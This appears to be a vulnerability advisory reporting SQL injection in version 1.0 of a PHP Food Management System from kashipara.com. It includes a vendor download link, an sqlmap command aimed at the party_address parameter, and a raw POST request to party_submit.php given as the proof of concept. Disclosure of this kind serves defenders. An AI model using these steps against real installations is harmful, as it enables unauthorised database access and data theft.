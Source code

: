 ###  

### Food Management System SQL Injection Vulnerability

Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: [www.kashipara.com/](http://www.kashipara.com/) 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\party_submit.php

![img](https://cdn-images-1.medium.com/max/900/1*-_ZzHJcNMV4iEJ5Qot9HtA.png)














 When SQL statements are executed, variables entered by the user are not filtered and validated sufficiently, resulting in malicious SQL statements that can be injected by maliciously constructed inputs.

SQLmap：

![img](https://cdn-images-1.medium.com/max/900/1*4Umn8tAJSyy0x3A-Aa_vfQ.png)

















SQLMAP：
python sqlmap.py -r 3.txt — level 5 — risk 3 -p party_address
POC：

```
POST /chopstic1/party_submit.php HTTP/1.1
Host: localhost
Content-Length: 94
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/party_details.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

party_name=aa&contact=sd&tin=sd&pan=sdfsdf&party_address=sdf&entry_date=05-01-2024&submit=Save
```